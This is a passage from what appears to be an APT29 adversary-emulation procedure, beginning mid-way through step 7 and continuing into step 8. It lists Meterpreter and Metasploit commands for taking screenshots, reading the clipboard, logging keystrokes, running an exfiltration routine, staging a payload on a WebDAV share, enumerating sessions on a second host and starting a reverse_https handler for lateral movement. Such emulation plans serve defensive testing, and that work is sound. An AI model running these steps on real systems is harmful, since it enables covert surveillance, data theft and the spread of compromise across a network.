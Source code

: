 [meterpreter (PowerShell)\*] > `. .\psversion.ps1`

[meterpreter (PowerShell)\*] > `Invoke-ScreenCapture;Start-Sleep -Seconds 3;View-Job -JobName "Screenshot"`

From the Windows victim, type text and copy to the clipboard.

[meterpreter (PowerShell)\*] > `Get-Clipboard`

[meterpreter (PowerShell)\*] > `Keystroke-Check`

[meterpreter (PowerShell)\*] > `Get-Keystrokes;Start-Sleep -Seconds 15;View-Job -JobName "Keystrokes"`

From victim system, enter keystrokes.

View keylog output from Metasploit:

[meterpreter (PowerShell)\*] > `View-Job -JobName "Keystrokes"`
[meterpreter (PowerShell)\*] > `Remove-Job -Name "Keystrokes" -Force`
[meterpreter (PowerShell)\*] > `Remove-Job -Name "Screenshot" -Force`

#### 7.B

[meterpreter (PowerShell)\*] > `Invoke-Exfil`

### Step 8 - Lateral Movement

#### 8.A

Copy payload to webdav share:

[user@attacker]\# `cp attack-evals/apt29/day1/payloads/python.exe /var/www/webdav/`
[user@attacker]\# `cd /var/www/webdav`
[user@attacker]\# `chown -R www-data:www-data python.exe`

Switch back to Meterpreter shell:

[meterpreter (PowerShell)\*] > `Ad-Search Computer Name *`

[meterpreter (PowerShell)\*] >

```
Invoke-Command -ComputerName <victim 2 IP> -ScriptBlock { Get-Process -IncludeUserName | Select-Object UserName,SessionId | Where-Object { $_.UserName -like "*\$env:USERNAME" } | Sort-Object SessionId -Unique } | Select-Object UserName,SessionId
```

Note the session ID for step 8C.

#### 8.B

Start a new instance of Metasploit, and spawn a Metasploit handler:

[bash] > `msfconsole`

[msf] > `handler -H 0.0.0.0 -P 8443 -p python/meterpreter/reverse_https`

Return to current Meterpreter session:

[meterpreter (PowerShell)\*] > `Invoke-SeaDukeStage -ComputerName <victim 2 IP>`
